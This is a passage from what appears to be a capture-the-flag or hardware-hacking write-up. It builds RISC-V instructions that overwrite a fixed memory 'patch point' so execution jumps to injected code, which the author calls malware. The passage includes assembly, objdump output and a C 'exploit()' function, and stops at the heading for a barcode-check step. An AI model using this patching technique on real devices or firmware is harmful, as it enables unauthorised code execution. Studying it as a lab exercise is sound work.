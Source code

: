 Now we can construct the assembly for the patch point with a little help from [godbolt](https://godbolt.org/z/kv7Lk1):

```
        lui     a0, 786461
        addi    a0, a0, 1280 # 0xc001d500
        jr      a0
```

Save this to `jump-to-malware.asm`, then assemble it and get the hex:

```
[nix-shell]$ riscv32-unknown-elf-as -o jump-to-malware.elf jump-to-malware.asm
[nix-shell]$ riscv32-unknown-elf-objdump -d jump-to-malware.elf
...
   0:	c001d537          	lui  a0,0xc001d
   4:	50050513          	addi a0,a0,1280 # 0xc001d500
   8:	00050067          	jr   a0
```

Great, so this hex sequence is what we'll want to write. To get the assembly to do *that*
let's compile one more C program [using godbolt](https://godbolt.org/z/4nO9om):

```
void exploit() {
    int *patch_point = (int *)0xc0025aa0;
    patch_point[0] = 0xc001d537; // lui	a0,0xc001d
    patch_point[1] = 0x50050513; // addi a0,a0,1280 # 0xc001d500
    patch_point[2] = 0x00050067; // jr a0
}
```

Grab the RISC-V 32-bit instructions corresponding to the function body:

```
        lui     a0, 786470
        addi    a0, a0, -1376
        sw      a0, -12(s0)
        lw      a0, -12(s0)
        lui     a1, 786461
        addi    a1, a1, 1335
        sw      a1, 0(a0)
        lw      a0, -12(s0)
        lui     a1, 327760
        addi    a1, a1, 1299
        sw      a1, 4(a0)
        lw      a0, -12(s0)
        lui     a1, 80
        addi    a1, a1, 103
        sw      a1, 8(a0)
```

This is the assembly for step 1. Let's bookmark needing to jump past the code in step 2 until after we have that code written. On to step 2!

### Step 2. check the barcode
